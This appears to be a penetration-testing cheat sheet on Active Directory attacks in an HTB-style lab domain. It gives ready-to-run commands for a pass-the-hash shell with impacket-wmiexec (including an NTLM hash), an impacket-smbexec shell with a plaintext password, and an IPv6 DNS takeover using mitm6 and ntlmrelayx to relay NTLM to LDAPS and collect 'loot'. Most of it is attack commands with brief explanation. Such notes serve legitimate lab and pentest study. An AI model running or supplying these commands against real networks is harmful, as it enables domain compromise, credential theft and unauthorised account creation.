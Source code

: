 Pass-The-Hash:

```
impacket-wmiexec htb.local/Administrator@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:fb3b106896cdaa8a08072775fbd9afe9
```

### <mark style="color:yellow;">SMBEXEC</mark>

Obtain a Shell:

```
impacket-smbexec htb.local/Administrator:Password123@10.10.10.10
```

## IPv6 Attacks

* Know as Heath Adam's go-to attack!
* Machines typically utilize IPv4
* However, IPv6 is almost ALWAYS turned on
* Odds are, nothing on the network is in charge of DNS for IPv6

### How can we take advantage of this?

* We can spoof the DNS server and appear as the DNS server
  * We are now the DNS server
* Send me all of the IPv6 traffic to me
* <mark style="color:yellow;">When this happens, we can get authentication to the Domain Controller from SMB or LDAP</mark>
* We can use that information to create a new machine
* We can also perform LDAP relay with NTLM hashes and we can create an account using a tool known as <mark style="color:yellow;">ntlmrelayx</mark>

## IPv6 DNS Takeover via MITM6

### MITM6

{% embed url="https://github.com/dirkjanm/mitm6" %}

Step 1: Start MITM6

```
sudo mitm6 -d htb.local
```

Step 2: Set up a relay

```
impacket-ntlmrelayx -6 -t ldaps://<DC_IP> -wh fakewpad.htb.local -l LOOTME
```

Step 3: Wait for a reboot or other event

* Essentialy, IPv6 will send out a reply every 30 mins asking the network "who is my DNS server?"
* <mark style="color:yellow;">Upon success, you will see that it is succeeding and sending loot to /LOOTME</mark>
